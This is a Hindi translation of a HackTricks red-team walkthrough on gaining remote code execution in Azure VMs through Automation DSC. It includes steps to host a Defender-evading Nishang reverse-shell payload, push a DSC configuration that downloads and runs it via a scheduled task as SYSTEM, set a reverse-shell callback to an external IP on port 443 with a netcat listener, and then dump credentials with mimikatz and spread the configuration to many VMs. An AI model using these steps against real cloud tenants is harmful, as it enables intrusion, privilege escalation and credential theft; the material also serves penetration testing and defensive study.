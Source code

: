 # Az - स्टेट कॉन्फ़िगरेशन RCE

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

**यह पोस्ट यहाँ से कॉपी की गई है** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### रिमोट सर्वर (C2) इंफ्रास्ट्रक्चर तैयारी <a href="#f0fa" id="f0fa"></a>

मैं "40.84.7.74" रिमोट सर्वर से Nishang Invoke-PowerShellTcp.ps1 पेलोड का एक सरलीकृत संस्करण होस्ट करूँगा, जो कि Kali बॉक्स है। पेलोड का नाम "RevPS.ps1" होगा। Windows Defender द्वारा किसी भी कारण से Nishang स्क्रिप्ट को हटाए जाने से बचाने के लिए (शायद आप फाइल को डिस्क पर ड्रॉप करना पसंद करें) यहाँ एक हल्का संस्करण है जिसे आप उपयोग कर सकते हैं जो Defender को बायपास करेगा: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). यह Kali बॉक्स पर एक साधारण Python Simple Server द्वारा होस्ट किया जाएगा।

### चरण 1 — फाइलें बनाएँ <a href="#89de" id="89de"></a>

हमें एक और DSC कॉन्फ़िगरेशन फाइल बनाने की आवश्यकता होगी। एक टेम्पलेट यहाँ से डाउनलोड किया जा सकता है: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). यह कॉन्फ़िगरेशन फाइल उसी फाइल-राइट फंक्शन का उपयोग करेगी जिसे हमने पहले इस्तेमाल किया था। इस बार, सामग्री में हमारे रिमोट सर्वर से एक पेलोड डाउनलोड करने और निष्पादित करने के लिए कोड शामिल है। साथ ही, हम _ComputerManagementDsc_ मॉड्यूल से उपलब्ध एक निर्धारित-कार्य फंक्शन का उपयोग कर रहे हैं। निर्धारित-कार्य फंक्शन निष्पादन में मुख्य भूमिका निभाएगा और बाद में हमें SYSTEM विशेषाधिकार प्रदान करेगा।

हम एक स्क्रिप्ट भी डाउनलोड करेंगे जिसका उपयोग हम VM में हमारे कॉन्फ़िगरेशन को प्रकाशित करने के लिए करेंगे। यह यहाँ स्थित है: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

ये फाइलें एक टेम्पलेट के रूप में काम करेंगी। **आपको चर नामों और पैरामीटरों को भरने की आवश्यकता होगी जिनका आप उपयोग कर रहे हैं**। इसमें संसाधन नाम, फाइल पथ, और बाहरी सर्वर/पेलोड नाम शामिल हैं जिनका आप उपयोग कर रहे हैं। कृपया कोड में टिप्पणियों का संदर्भ लें।

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### चरण 2 — कॉन्फ़िगरेशन फाइल को ज़िप करें <a href="#c2c2" id="c2c2"></a>

हमारी दो फाइलें बनाने के बाद, हम **‘reverse\_shell\_config.ps1’** फाइल को ज़िप करेंगे ताकि इसे स्टोरेज अकाउंट में भेजा जा सके
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### चरण 3 — स्टोरेज संदर्भ सेट करें और अपलोड करें <a href="#bed9" id="bed9"></a>

फिर से, हम अपने स्टोरेज अकाउंट का संदर्भ सेटअप करेंगे जो मैंने पहले ही कर लिया है। मेरे पास पहले से ही 'azure-pentest' नामक एक कंटेनर है, इसलिए मैं यहां अपना प्रकाशन करूंगा:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### चरण 4 — काली बॉक्स तैयार करें <a href="#20fb" id="20fb"></a>

हमारे काली बॉक्स में, हम आसानी से _wget_ का उपयोग करके हमारे PowerShell पेलोड को डाउनलोड कर सकते हैं। कच्ची रिवर्स-शेल स्क्रिप्ट यहाँ स्थित है: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

हमें रिवर्स-शेल स्क्रिप्ट में अपने पैरामीटर्स जोड़ने की आवश्यकता है, ताकि Windows VM को पता चले कि उसे कहाँ कनेक्ट करना है एक बार जब वह निष्पादित हो जाए। मेरे मामले में मैंने निम्नलिखित जोड़ा:
```
RevPShell -Reverse 40.84.7.73 443
```
### चरण 5 - कॉन्फ़िगरेशन फ़ाइल प्रकाशित करें <a href="#9ad6" id="9ad6"></a>

अब हम अपनी कॉन्फ़िगरेशन फ़ाइल चलाएंगे। मेरी सेटअप डेस्कटॉप पर प्रकाशित होने के लिए है ताकि बेहतर दृश्य मिल सके, हालांकि इसे लगभग कहीं भी प्रकाशित किया जा सकता है। कुछ मिनटों के बाद, हम देखेंगे कि रिवर्स-शेल स्क्रिप्ट प्रकाशित हो चुकी है!

### चरण 6 - पेलोड होस्ट करें और लिसनर सेटअप करें <a href="#c55f" id="c55f"></a>

एक बार जब हम कॉन्फ़िगरेशन प्रकाशित कर देते हैं, हम समानांतर रूप से पेलोड को होस्ट करने के लिए पोर्ट 80 पर एक Python SimpleHTTPServer शुरू कर सकते हैं, साथ ही साथ एक netcat लिसनर भी सेटअप कर सकते हैं ताकि कनेक्शन को पकड़ सकें:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
हम देखते हैं कि निर्धारित कार्य चला और हमारा पेलोड प्राप्त होकर **SYSTEM** स्तर की विशेषाधिकारों के साथ मेमोरी में निष्पादित हुआ!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### समापन <a href="#1ec2" id="1ec2"></a>

अब यह कई संभावनाओं के द्वार खोलता है। चूंकि हमारे पास **SYSTEM** के रूप में चल रहा शेल है, हम mimikatz के साथ क्रेडेंशियल्स डंप कर सकते हैं (यह क्लाउड संसाधनों के लिए EDR की परिपक्वता पर निर्भर करते हुए जोखिम भरा हो सकता है)। यदि आप क्रेड्स डंप करते हैं, तो इन्हें विभिन्न संसाधनों में फिर से उपयोग करने की अच्छी संभावना है। अंत में, एक महत्वपूर्ण बात यह है कि इसे एक VM तक सीमित रखने के बजाय, आपके पास अब इस कॉन्फ़िगरेशन को कई VM's में संभावित रूप से लागू करने की क्षमता है।

इस नोट पर, हमारे Azure Automation DSC के साहसिक कार्य का समापन होता है! मुझे आशा है कि आपने मज़ा किया, बहुत कुछ सीखा और अपनी सृजनात्मकता के साथ विस्तार करते रहेंगे।

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का अनुसरण करें।**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
